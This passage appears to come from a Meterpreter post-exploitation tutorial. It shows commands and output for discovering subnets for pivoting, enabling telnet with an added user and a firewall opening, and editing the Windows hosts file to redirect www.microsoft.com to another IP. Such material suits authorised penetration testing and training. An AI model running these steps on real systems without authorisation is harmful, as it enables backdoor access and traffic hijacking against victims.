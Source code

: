 ## get_local_subnets

`get_local_subnets` script allows to obtain local subnet information of the target computer. This information can be used in pivoting operations.

```bash
meterpreter > run get_local_subnets 

Local subnet: 10.211.55.0/255.255.255.0
```

## gettelnet

`gettelnet` script is used to turn on telnet feature if it is disabled on the target computer.

```bash
meterpreter > run gettelnet
Windows Telnet Server Enabler Meterpreter Script
Usage: gettelnet -u -p

OPTIONS:

 -e Enable Telnet Server only.
 -f Forward Telnet Connection.
 -h Help menu.
 -p The Password of the user to add.
 -u The Username of the user to add.

meterpreter > run gettelnet -e

> Windows Telnet Server Enabler Meterpreter Script
> Setting Telnet Server Services service startup mode
> The Telnet Server Services service is not set to auto, changing it to auto ...
> Opening port in local firewall if necessary
```

## hostsedit

The `hostsedit` script is used to enter information into the Windows hosts file. This hosts file is first checked for the DNS addresses of the web addresses to which you want to connect. It is used to direct the target computer to the desired address. One address must be entered on each line.

```bash
meterpreter > run hostsedit

[!] Meterpreter scripts are deprecated. Try post/windows/manage/inject_host.
[!] Example: run post/windows/manage/inject_host OPTION=value [...]
This Meterpreter script is for adding entries in to the Windows Hosts file.
Since Windows will check first the Hosts file instead of the configured DNS Server
It will assist in diverting traffic to the fake entry or entries. Either a single
entry can be provided or a series of entries provided a file with one per line.

OPTIONS:

 -e Host entry in the format of IP,Hostname.
 -h Help Options.
 -l Text file with list of entries in the format of IP,Hostname. One per line.

Example:
run hostsedit -e 127.0.0.1,google.com

run hostsedit -l /tmp/fakednsentries.txt meterpreter > run hostsedit -e 10.211.55.162,www.microsoft.com
> Making Backup of the hosts file.
> Backup located in C:\WINDOWS\System32\drivers\etc\hosts62497.back
```